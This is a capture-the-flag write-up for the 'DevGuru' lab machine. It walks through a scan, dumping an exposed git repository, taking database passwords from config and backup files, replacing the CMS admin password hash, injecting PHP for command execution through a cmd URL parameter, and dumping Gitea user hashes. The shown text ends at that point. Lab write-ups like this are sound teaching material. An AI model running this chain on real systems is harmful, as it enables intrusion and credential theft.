





# DevGuru Writeup

### Credits: Zayotic

## [ Task 1 ] - user.txt

* First run an n̶m̶a̶p̶ rustscan* scan
### Scan Output:
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
--  snip  --
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: DevGuru
| http-git: 
|   10.10.37.203:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: first commit 
|     Remotes:
|       http://devguru.local:8585/frank/devguru-website.git
|_    Project type: PHP application (guessed from .gitignore)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corp - DevGuru
| vulners: 
|   cpe:/a:apache:http_server:2.4.29: 
|_    	CVE-2017-15710	5.0	https://vulners.com/cve/CVE-2017-15710
8585/tcp open  unknown syn-ack ttl 61
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
--  snip  --
```
### Dumping Git
* Git repository found!, Lets dump it and run a git checkout

```
adminer.php  bootstrap  index.php  plugins    server.php  themes
artisan      config     modules    README.md  storage
```
* It seems theres a database.php file in config/
#### config/database.php:

```
        'mysql' => [
            'driver'     => 'mysql',
            'engine'     => 'InnoDB',
            'host'       => 'localhost',
            'port'       => 3306,
            'database'   => 'octoberdb',
            'username'   => 'october',
            'password'   => 'SQ66EBYx4GT3byXH',
            'charset'    => 'utf8mb4',
            'collation'  => 'utf8mb4_unicode_ci',
            'prefix'     => '',
            'varcharmax' => 191,
        ],
```
### Lets click on sql command and start messing with the db


### select * from backend_users;



### These creds are useless, trust me...

### Now since we cant use these credentials, why not switch them?
```
UPDATE `backend_users` SET `password` = '$2y$12$8uIf92IlXQT9MKVExDhT8uCcqwG3cZ/QJRs.gR920igyNV89ACI5m' WHERE `password` = '$2y$10$bp5wBfbAN6lMYT27pJMomOGutDF2RKZKYZITAupZ3x8eAaYgN6EKK'
```
### Franks password is now: password
### Lets login to the October CMS


## Now lets click on CMS > About
### Remove everything on the markup page and insert {{ onStart }}


### Now lets click on the code section and input the following php


### Now we should be able to get an RCE on this system
```
http://devguru.thm/about?cmd=whoami
```
### With this, we also get a shell (no python, just python3)



### Now that we have a shell, we can perform the normal enumeration
### The interesting thing was found with:
```
find / -name *.bak 2>/dev/null | tee /dev/shm/log.txt
```
### There seems to be an app.ini.bak in /var/backups

```
cat app.ini.bak | grep data -C 10


[database]
; Database to use. Either "mysql", "postgres", "mssql" or "sqlite3".
DB_TYPE             = mysql
HOST                = 127.0.0.1:3306
NAME                = gitea
USER                = gitea
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD              = UfFPTF8C8jjxVF2m
; For Postgres, schema to use if different from "public". The schema must exist beforehand,
; the user must have creation privileges on it, and the user search path must be set
; to the look into the schema first. e.g.:ALTER USER user SET SEARCH_PATH = schema_name,"$user",public;
SCHEMA              = 
```
### Nice, lets login to the mysql server
* This can also be done with adminer but gui bad and only soopr hakrs so were goin with cli
```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2909
Server version: 10.1.47-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```
### And were in, lets take a look around
* show databases;

* use gitea;

* show tables;

* select * from user;

```
+----+------------+-------+-----------+---------------------+--------------------+--------------------------------+------------------------------------------------------------------------------------------------------+------------------+----------------------+------------+--------------+------------+------+----------+---------+------------+------------+----------+-------------+--------------+--------------+-----------------+----------------------+-------------------+-----------+----------+---------------+----------------+--------------------+---------------------------+----------------+----------------------------------+---------------------+-------------------+---------------+---------------+-----------+-----------+-----------+-------------+------------+-------------------------------+-----------------+-------+
| id | lower_name | name  | full_name | email               | keep_email_private | email_notifications_preference | passwd                                                                                               | passwd_hash_algo | must_change_password | login_type | login_source | login_name | type | location | website | rands      | salt       | language | description | created_unix | updated_unix | last_login_unix | last_repo_visibility | max_repo_creation | is_active | is_admin | is_restricted | allow_git_hook | allow_import_local | allow_create_organization | prohibit_login | avatar                           | avatar_email        | use_custom_avatar | num_followers | num_following | num_stars | num_repos | num_teams | num_members | visibility | repo_admin_change_team_access | diff_view_style | theme |
+----+------------+-------+-----------+---------------------+--------------------+--------------------------------+------------------------------------------------------------------------------------------------------+------------------+----------------------+------------+--------------+------------+------+----------+---------+------------+------------+----------+-------------+--------------+--------------+-----------------+----------------------+-------------------+-----------+----------+---------------+----------------+--------------------+---------------------------+----------------+----------------------------------+---------------------+-------------------+---------------+---------------+-----------+-----------+-----------+-------------+------------+-------------------------------+-----------------+-------+
|  1 | frank      | frank |           | frank@devguru.local |                  0 | enabled                        | abbf51c3e17081e50408ce68aca97043f88551694894f47456253ee0e864ee138d76a3460555d509a2e7bc01356ae155a4de | pbkdf2           |                    0 |          0 |            0 |            |    0 |          |         | tGiikyeYuF | PyWam2zNcZ | en-US    |             |   1605832197 |   1607275886 |      1607275886 |                    1 |                -1 |         1 |        1 |             0 |              0 |                  0 |                         1 |              0 | 13d0a7d733ae3042a5af559bddea54b3 | frank@devguru.local |                 1 |             0 |             0 |         0 |         1 |         0 |           0 |          0 |                             0 |                 | gitea |
+----+------------+-------+-----------+---------------------+--------------------+--------------------------------+------------------------------------------------------------------------------------------------------+------------------+----------------------+------------+--------------+------------+------+----------+---------+------------+------------+----------+-------------+--------------+--------------+-----------------+----------------------+-------------------+-----------+----------+---------------+----------------+--------------------+---------------------------+----------------+----------------------------------+---------------------+-------------------+---------------+---------------+-----------+-----------+-----------+-------------+------------+-------------------------------+-----------------+-------+


```
